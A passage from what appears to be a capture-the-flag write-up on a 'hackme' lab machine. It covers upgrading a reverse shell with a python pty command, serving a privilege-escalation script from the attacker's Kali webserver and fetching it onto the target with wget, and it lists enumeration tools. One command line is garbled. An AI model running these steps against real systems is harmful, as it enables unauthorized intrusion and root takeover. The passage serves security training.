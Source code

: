 ![](https://i2.wp.com/siddfinch.org/wp-content/uploads/2020/06/12-reverse-shell.png?resize=731%2C407&ssl=1)

I used the whoami command to check my current privilege, which showed I was www-data, a low-priv user. The shell received was also limited, so to upgrade it I ran the following.

```text
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://i2.wp.com/siddfinch.org/wp-content/uploads/2020/06/13-updated-shell.png?resize=552%2C367&ssl=1)

## Privilege Escalation

The final step in this CTF was to escalate my user privilege to root. My first attempt was to run my favorite automated priv escalation script, also courtesy of the [pentestmonkeys](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=1&cad=rja&uact=8&ved=2ahUKEwikheDpypDlAhWhnOAKHTdMBVEQFjAAegQIBRAB&url=http%3A%2F%2Fpentestmonkey.net%2Ftools%2Faudit%2Funix-privesc-check&usg=AOvVaw0zKEIT3uLrcBFLsG1oZ63j). To get this script on the target, I uploaded it to my local attack machine webserver with the following command.

```text
root@kali$ cp unix-privesc-check /var/www/html
```

I started the apache2 web service with the following.

```text
root@kali$ service apache2 start
```

Then, I used wget in the target reverse shell to download the script to the target machine.

```text
www-data@hackme$ wget http://192.168.8.128/unix-privesc-check
```

![](https://i2.wp.com/siddfinch.org/wp-content/uploads/2020/06/14-upload-privesc.png?resize=713%2C260&ssl=1)

To run the script, I changed the permissions of the file to 777, and then executed it.

```text
www-data@hackme$ wget www-datawww-data@hackme$ chmod 777 Unix-privesc-check
www-data@hackme$ ./Unix-privesc-check
```

Unfortunately, I received an error message that the target machine does not have the “strings” function, which is necessary in order to run the program. With my best priv escalation option off the table, I began searching for other similar scripts. I used the same process of downloading scripts to the target, changing permissions, and running the programs for some additional automated scipts. I used the following scripts from GitHub. Each one gave varying degree of enumeration information

* [BeRoot](https://github.com/AlessandroZ/BeRoot).
* [Bashark](https://github.com/TheSecondSun/Bashark)
* [Linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2).
* [LinEnum](https://github.com/rebootuser/LinEnum).
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
